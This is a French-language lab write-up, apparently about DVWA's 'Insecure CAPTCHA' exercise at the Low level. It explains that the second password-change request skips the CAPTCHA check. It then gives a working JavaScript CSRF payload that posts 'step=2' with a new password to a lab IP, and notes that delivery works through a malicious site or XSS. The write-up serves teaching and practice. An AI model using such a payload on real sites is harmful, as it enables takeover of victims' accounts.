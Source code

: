 # Niveau "Low"

Je modifie tout d'abord mon mot de passe et j'analyse les requêtes effectuées par l’application :

![](../../../../.gitbook/assets/caa89caa4d6675f17d676c7e5791e2c8.png)

Une seconde page m'indique que le Captcha est valide et me demander de confirmer mon  changement :

![](../../../../.gitbook/assets/740d28ce5ec493bbd45d071d440d5e88.png)

Le changement du mot de passe s'effectue en deux étapes. La première est la vérification du Captcha :

![](../../../../.gitbook/assets/70ca6ff2462cfc502d65ee3e3e49173c.png)

La seconde est la confirmation des changements demandés par l'utilisateur :

![](../../../../.gitbook/assets/35bb5e8fdabe1f70e680ebaf1cd78aba.png)

J'identifie rapidement le contournement du Captcha ici, car la seconde requête ne nécessite aucunement la bonne exécution de la première. Je peux alors exploiter ce biais afin d'effectuer une attaque CSRF pour changer le mot de passe de la victime (malgré la présence du Captcha) :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.withCredentials = true;

xhr.onreadystatechange = function() {
  if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
    console.log(xhr.response);
  }
}

xhr.send("step=2&password_new=hacked&password_conf=hacked&Change=Change");
```

{% hint style="info" %}
Pour l'exploitation de cette vulnérabilité, il suffit de reprendre le même principe que lors d'une attaque CSRF classique (faire visiter un site malicieux à la victime, s'appuyer sur une faille XSS, etc)
{% endhint %}
